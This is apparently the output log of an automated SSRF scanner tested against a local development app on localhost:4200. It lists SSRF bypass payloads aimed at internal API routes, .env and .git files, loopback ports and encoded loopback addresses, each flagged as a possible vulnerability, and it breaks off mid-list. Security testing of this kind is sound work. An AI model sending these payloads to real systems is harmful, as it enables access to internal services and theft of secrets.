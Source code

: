  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Ftii_actions` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Ftii_eula`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Ftii_eula` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Ftii_hook`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Ftii_hook` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Ftutorials`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Ftutorials` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Funit_roles`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Funit_roles` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Funits`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Funits` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Fusers`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2Fapi%2Fusers` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2F.env`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2F.env` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A4200%2F.git`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A4200%2F.git` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%3A443`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%3A443` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.1%3A22`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.1%3A22` _(POST)_
- Testing: `http://localhost:4200/?url=127.1%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.1%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=0`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0` _(POST)_
- Testing: `http://localhost:4200/?url=0.0.0.0%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=0.0.0.0%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=localhost%3A80`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=localhost%3A80` _(POST)_
- Testing: `http://localhost:4200/?url=%5B%3A%3A%5D%3A80%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B%3A%3A%5D%3A80%2F` _(POST)_
- Testing: `http://localhost:4200/?url=%5B%3A%3A%5D%3A25%2F%20SMTP`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B%3A%3A%5D%3A25%2F%20SMTP` _(POST)_
- Testing: `http://localhost:4200/?url=%5B%3A%3A%5D%3A3128%2F%20Squid`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B%3A%3A%5D%3A3128%2F%20Squid` _(POST)_
- Testing: `http://localhost:4200/?url=%5B0000%3A%3A1%5D%3A80%2F`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B0000%3A%3A1%5D%3A80%2F` _(POST)_
- Testing: `http://localhost:4200/?url=%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%2Fthefile`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%2Fthefile` _(POST)_
- Testing: `http://localhost:4200/?url=%E2%91%A0%E2%91%A1%E2%91%A6.%E2%93%AA.%E2%93%AA.%E2%93%AA`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=%E2%91%A0%E2%91%A1%E2%91%A6.%E2%93%AA.%E2%93%AA.%E2%93%AA` _(POST)_
- Testing: `http://localhost:4200/?url=127.127.127.127`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.127.127.127` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.1.3`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.1.3` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.0`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=127.0.0.0` _(POST)_
- Testing: `http://localhost:4200/?url=2130706433`